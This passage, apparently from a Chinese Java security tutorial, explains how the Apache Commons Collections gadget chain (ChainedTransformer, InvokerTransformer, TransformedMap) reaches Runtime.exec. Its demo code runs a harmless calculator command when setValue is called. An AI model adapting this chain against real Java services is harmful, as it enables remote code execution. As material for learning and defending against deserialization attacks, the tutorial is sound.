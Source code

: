 通过构建`ChainedTransformer`调用链我们最终会使用`InvokerTransformer`来完成反射调用`Runtime.getRuntime().exec(cmd)`的逻辑。

## 利用`InvokerTransformer`执行本地命令

上面两个Demo为我们演示了如何使用`InvokerTransformer`执行本地命令，现在我们也就还只剩下两个问题：

1. 如何传入调用链。
2. 如何调用`transform`方法执行本地命令。

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的`Transformer`类对象，紧接着我们应该思考如何才能够将调用链窜起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对`Map`的`key`或者`value`进行`Transformer`转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
  	// 省去实现代码
}
```

只要调用`TransformedMap`的`setValue/put/putAll`中的任意方法都会调用`InvokerTransformer`类的`transform`方法，从而也就会触发命令执行。

**使用`TransformedMap`类的setValue触发transform示例：**

```java
public static void main(String[] args) {
   String cmd = "open -a Calculator.app";

	 // 此处省去创建transformers过程，参考上面的demo

   // 创建ChainedTransformer调用链对象
   Transformer transformedChain = new ChainedTransformer(transformers);

   // 创建Map对象
   Map map = new HashMap();
   map.put("value", "value");

   // 使用TransformedMap创建一个含有恶意攻击链的Transformer
   Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

   // transformedMap.put("v1", "v2");// 执行put也会触发transform
  
   // 遍历Map元素，并调用setValue方法
   for (Object obj : transformedMap.entrySet()) {
      Map.Entry entry = (Map.Entry) obj;

      // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
      entry.setValue("test");
   }

   System.out.println(transformedMap);
}
```
